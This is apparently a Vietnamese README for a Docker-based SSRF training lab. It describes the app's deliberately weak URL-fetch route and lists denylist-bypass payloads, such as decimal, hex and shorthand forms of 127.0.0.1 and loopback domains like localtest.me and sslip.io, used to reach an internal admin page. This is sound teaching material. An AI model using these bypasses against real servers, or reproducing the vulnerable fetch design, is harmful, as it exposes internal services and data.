 # SSRF Lab

> **Mục tiêu**: Thực hành tấn công SSRF (Server-Side Request Forgery) qua một chức năng "server tải nội dung từ URL".

## 1) Cách chạy
```bash
# Trong thư mục ssrf-lab/
docker compose up --build
# Mở trình duyệt: http://localhost:5002
```

Biến môi trường `FLAG` được set trong `docker-compose.yml`.

---

## 2) Lỗ hổng ở đâu?
Trong `app/app.py`, route `/fetch` lấy tham số `?url=` và **server** dùng `requests.get()` để đi lấy tài nguyên bên ngoài:

- Không kiểm tra IP đích thực sự (không resolve DNS/không so subnet),
- Dùng **denylist** chỉ dò chuỗi (`localhost`, `127.0.0.1`, `::1`, ...),
- Cho phép `allow_redirects=True` (có thể bị chuyển hướng vào mạng nội bộ),
- Trả **nguyên văn** nội dung phản hồi cho người dùng.

=> Kẻ tấn công có thể buộc server kết nối đến **dịch vụ nội bộ** hoặc **chính bản thân server** (loopback) để đọc dữ liệu nhạy cảm.

---

## 3) Payload khai thác
### Đọc nội dung admin nội bộ (chứa FLAG)
**Mục tiêu nội bộ**: `http://127.0.0.1:5002/admin` — nhưng chuỗi này bị denylist.

Bypass các cách biểu diễn **không chứa** chuỗi bị chặn:

- IPv4 decimal (DWORD):
    ```
    http://2130706433:5002/admin
    ```
    2130706433 = 127.0.0.1 (0x7f000001).
- Pv4 single hex (DWORD hex)
    ```
    http://0x7f000001:5002/admin
    ```

- IPv4 mixed (hex + thập phân)
    ```
    http://0x7f.1:5002/admin
    ```
    
- IPv4 dotted hex
    ```
    http://0x7f.0x0.0x0.0x1:5002/admin
    ```
    Nhiều stack chấp nhận hex cho từng octet.

- IPv4 shorthand (rút gọn octet — đa số OS/lib mở rộng thành `127.0.0.1`)
    ```
    http://127.1:5002/admin
    ```

- Tên miền trỏ sẵn về loopback (không chứa `127.0.0.1`)
    ```
    http://localtest.me:5002/admin
    ```
    `localtest.me` mặc định resolve `127.0.0.1`.

- Tên miền phụ của localtest (vẫn về loopback)
    ```
    http://foo.localtest.me:5002/admin
    ```

- Wildcard DNS về loopback (biểu diễn dấu gạch)
    ```
    http://127-0-0-1.sslip.io:5002/admin
    ```
    `sslip.io` map `127-0-0-1` → 127.0.0.1 (không có chuỗi `127.0.0.1` trong URL).

---

